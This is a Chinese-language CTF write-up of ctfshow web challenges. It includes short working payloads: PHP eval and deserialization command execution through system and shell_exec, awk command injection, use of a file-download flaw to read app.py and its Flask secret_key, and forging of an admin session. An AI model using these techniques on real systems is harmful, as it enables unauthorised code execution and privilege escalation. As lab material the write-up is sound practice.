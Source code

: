 # web签到
```php
eval($_REQUEST[$_GET[$_POST[$_COOKIE['CTFshow-QQ群:']]]][6][0][7][5][8][0][9][4][4]);
/*
    # $_REQUEST 能够获取get，post，cookie中的消息
    # $_COOKIE 获取cookie中的值，此题中获取CTFshow-QQ群的值
    # $_POST 获取cookie的名的值
    # $_GET 获取post对应的值
*/
```
构造如下请求（不知道request c[][]...[]=system('ls /');命令放在get处无法执行。。。，改到post处就可以）
![pic1](/ctfshow/image/image-1.png)

# web2 come_to_sign
浏览器f12，按照提示控制台输入g1ve_flag()

# 我的眼里只有$
```php
$var = str
$str = hello
$$var = $str = hello
```
![image2](/ctfshow/image/image-2.png)

# 抽老婆
打开网站，发现可以下载图片，修改download的请求，报错
![error](/ctfshow/image/image-3.png)
发现报错处为/app/app.py,尝试download该文件，打开发现secret_key
并且发现如下代码
```python
@app.route('/secret_path_U_never_know',methods=['GET'])
def getflag():
    if session['isadmin']:
        return jsonify({"msg":flag})
    else:
        return jsonify({"msg":"你怎么知道这个路径的？不过还好我有身份验证"})
```
使用脚本解密session，修改isadmin的值为True，重新加密生成session
![alt text](/ctfshow/image/image-5.png)
![alt text](/ctfshow/image/image-4.png)

# 一言既出&驷马难追
xor

114514^1897488

# TapTapTap
修改游戏代码，habibiscript.js,跳关，小球点击次数改为一，depends on you

# webshell
php的序列化和反序列化，<mark>由于有shell_exec就不用system了</mark>
```php
$cmd=O:8:"Webshell":1:{s:3:"cmd";s:4:"nl *";}
```
# 化整为零
构造payload ?1=%E5&2=%A4&3=%A7&4=%E7&5=%89&6=%9B

# 无一幸免
题出错了?，退测if中应该为==

# 传说之下（雾）
在控制台修改

# 算力超群
看了wp要用反弹shell，没有公网ip

# 算力升级
没做还

# easyPytHon_P
给了源码还是得看wp，cmd=awk&param=system("ls")

<mark>有的地方不用双引号不行不知道为什么</mark>
